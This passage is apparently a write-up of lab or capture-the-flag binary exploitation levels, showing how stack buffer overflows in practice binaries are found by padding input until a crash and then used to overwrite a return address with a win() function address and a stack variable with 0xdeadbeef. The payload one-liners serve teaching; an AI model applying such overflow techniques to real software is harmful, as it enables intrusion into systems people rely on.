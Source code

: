 Similarly to last exercise, the message we want can not be printed by the main function, and has to be located in some other funciton. `info functions` reveals `win()` funciton again and indeed it contains `0x8048540:      "code flow successfully changed"`.

This time there is no variable to overwrite so we we probably need to target the return address of the main function `eip`.

Let's try to increase the inserted bytes until we get a segmentation fault

```sh
(python -c "print 'A'*64";) | ./bin
(python -c "print 'A'*68";) | ./bin
(python -c "print 'A'*72";) | ./bin
(python -c "print 'A'*76";) | ./bin
> Illegal instruction
```

Now we just need to add the address of the win function `0x080483f4` at the end of the bytes and we're done.

```sh
(python -c "print 'A'*76 + '\xf4\x83\x04\x08'";) | ./bin
> code flow successfully changed
  Segmentation fault
```

We get `segmentation fault` because the original return address of the program has been overwritten so it cant exit properly

-   ## EX05

### Objective

This level is completed when you see the “you have hit the target correctly” message.

### Binary functionality

Running this binary also seems to do nothing, even with argument(s).

### Process and solution

![img](https://i.imgur.com/eO4MTyJ.png)

Nothing much seems to be going on in the main func, but it calls a `vuln` func at the end so lets examine that.

![img](https://i.imgur.com/8q3vi1A.png)

Alot more going on here and indeed it could print the message. There is a variable `DWORD PTR [ebp-0xc]` that gets set to 0 and doesn't get changed. The same variable is later in a comparison `cmp    eax,0xdeadbeef` and if it's equal we get the message we want.

Since we need to overwrite a variable again we can just try and assume we need 64 bytes again and add the address that the program is comparing the variable to at the end.

```sh
./bin $(python -c "print 'A'*64 + '\xef\xbe\xad\xde'")
> you have hit the target correctly :)
```

